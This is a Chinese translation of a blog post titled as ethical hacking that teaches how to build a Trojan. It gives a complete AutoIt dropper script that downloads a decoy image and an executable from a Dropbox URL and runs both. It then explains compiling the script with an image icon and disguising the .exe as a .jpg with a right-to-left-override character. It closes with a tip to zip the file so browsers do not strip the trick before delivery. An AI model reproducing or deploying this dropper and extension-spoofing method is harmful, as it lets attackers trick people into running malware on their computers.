





# 我如何创建一个木马恶意软件——道德黑客

> 原文：<https://infosecwriteups.com/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6?source=collection_archive---------0----------------------->

> *特洛伊木马(或特洛伊木马)是最常见、最危险的威胁类型之一，会感染您的计算机或移动设备。*


# 什么是木马恶意软件？

**木马恶意软件**，当打开**时，看起来是用户打开的合法文件**，如打开图片或文档或播放媒体文件，但在**后台，它会运行一些邪恶的进程**，如有人可能通过后门或注入一些其他有害代码来访问您的计算机。

# 创建我的木马恶意软件

在这篇博客中，我将向您展示我如何将我的可执行文件与一个图像文件相结合，当打开时，它能够在目标人员打开它时显示图像，但同时，可执行文件在后台运行。简单地说，我将我的`.exe`文件隐藏在一个`.jpg`图像文件中。

这种方法可以扩展到任何文件类型，比如图像、pdf、音乐等等。大多数情况下，可执行文件是一种病毒或后门程序，用于获取对目标计算机的访问权限。让我们来看看这些步骤:


## 1.获取图片和`.exe`文件的直接网址

`.exe`可执行文件需要出现在一个公开的 URL 上，浏览器可以从那里直接下载该文件。为此，我已经在 dropbox 上上传了可执行文件。在 dropbox 的情况下，将可共享链接的结尾部分修改为`dl=1`，将允许浏览器直接下载文件。我下面分享的链接不包含任何代码，实际上是一个空文件，因此您可以安全地测试该链接的行为。

**URL 为** `**.exe**` **可执行文件:**[https://www . Dropbox . com/s/hsnvw 0 ik 1 em 0637/some _ evil _ file . exe？dl=1](https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1)

**我的图片网址:**[https://images . adsttc . com/media/images/5b 04/5e3a/f197/cc1f/9600/00aa/newslett/park _ garden _ concourse . jpg](https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg)


体育中心的图像

我用体育馆的图片作为封面。

## 2.在脚本中使用 URL

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>Local $urls = "url1,url2"Local $urlsArray = StringSplit($urls, ",", 2 )For $url In $urlsArray
 $sFile = _DownloadFile($url)
 shellExecute($sFile)NextFunc _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = [@TempDir](http://twitter.com/TempDir) & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

在上面的代码中，在第 3 行，用图像的 URL 替换`url1`,用可执行文件的 URL 替换`url2`。我的最终代码如下所示

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>
Local $urls = "[https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg,https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1](https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg,https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1)"
Local $urlsArray = StringSplit($urls, ",", 2 )
For $url In $urlsArray
 $sFile = _DownloadFile($url)
 shellExecute($sFile)
Next
Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = [@TempDir](http://twitter.com/TempDir) & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

用扩展名`.au3`保存文件。我已经将文件命名为`trojan.au3`。

## 3.为文件创建图标

由于我使用的是图片作为封面文件，`Windows`通常会将图片的缩略图显示为文件图标，所以我将使用体育综合体图片作为图标，并将其转换为`.ico`格式。你可以谷歌一下，你会发现很多工具可以做到这一点。我用了这个网站-【https://cloudconvert.com/jpg-to-ico 

## 4.编译脚本

这个脚本是用一种叫做`AutoIt`的脚本语言编写的。要在 Ubuntu 中安装`AutoIt`，可以先安装`wine`再安装`AutoIt`，或者如果你想要一个直截了当的方法，从这里提到的步骤开始安装`Veil`https://www.javatpoint.com/installing-veil。`AutoIt`将在其中一个步骤中安装，之后您可以退出安装。

打开编译 AutoIt 应用程序。该窗口应该看起来像下面显示的框。输入`trojan.au3`文件的位置和`.ico`文件的路径。



在 windows 计算机上，转换后的文件如下所示。



嗯，有点不对劲。这个文件的问题在于它的扩展名。很明显，这是一个可执行文件，因为它的扩展名是`.exe`。我们需要伪造这个扩展。

## 5.“欺骗”。“exe”扩展名扩展到任何扩展名

为了欺骗明显的扩展`.exe`并用`.jpeg`替换它，我们将使用一个`right-to-left-override`字符。

要了解欺骗实际上是如何工作的细节以及在哪里放置`right-to-left-override`字符，请阅读博客。

[](https://levelup.gitconnected.com/spoofing-file-extensions-ethical-hacking-bd128189738b) [## 欺骗文件扩展名—道德黑客

### 创建特洛伊木马时，文件扩展名欺骗是一个方便的技巧。我会恶搞的。“exe”扩展为。jpg'…

levelup.gitconnected.com](https://levelup.gitconnected.com/spoofing-file-extensions-ethical-hacking-bd128189738b) 

总结一下上面博客中提到的步骤:

*   将`trojan.exe`重命名为`trojangpj.exe`。
*   在木马后的第 7 位粘贴`right-to-left-override`字符。在`right-to-left-override`字符之后的所有字符将被翻转，即从右向左阅读。



文件名现在看起来像`trojanexe.jpg`



由于文件中包含的图像是一个体育中心，我将用`sportscompl_`替换名称中的`trojan`，这样文件名就变成了`sports_complexe.jpg`。



**祝贺你！！！木马准备好了。**

现在，文件名与包含的图像相匹配。一些最新的浏览器在下载前取消了从右到左的覆盖。所以压缩文件并发送过来是个好主意。

> 这是一份探索我们博客平台 [**极客头脑**](https://www.thegeekyminds.com/) 的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。
> 
> 邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯

[](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)